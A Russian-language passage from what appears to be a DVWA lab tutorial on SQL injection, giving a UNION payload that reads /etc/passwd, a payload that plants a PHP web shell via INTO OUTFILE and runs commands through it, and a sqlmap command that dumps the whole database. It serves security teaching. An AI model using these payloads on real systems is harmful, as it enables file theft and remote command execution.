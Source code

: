 В данном примере запрос 
```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
``` 
после получения параметра `$id` от пользователя, преобразуется в следующую конструкцию:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '' union select 1, load_file('/etc/passwd') #';
``` 
которая и даёт атакующему возможность чтения локальных файлов.

## Пример нагрузки на получение shell'а:
```sql
' union select 1, '<?php system($_GET["cmd"]); ?>' into outfile '../../htdocs/cmd.php' #
```
В этом примере атакующий записывает PHP-скрипт
```php
<?php 
system($_GET["cmd"]); 
?>
```
в файл cmd.php.
Теперь атакующий может обратиться к этой веб-странице и через параметры GET запроса отправлять команды системе-жертве.

~~~
http://host/path/to/file/cmd.php?cmd=uname%20-a
~~~
![](./img/sqli/uname.png)

## Атака автоматизированными инструментами

Команда для запуска sqlmap:
```bash
sqlmap -u "http://host/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=4074cf3daf9e2152349baee68c99a656; security=low" --proxy http://192.168.50.2:8080 --dump-all
```
Результат:

![](./img/sqli/sqlmap.png)
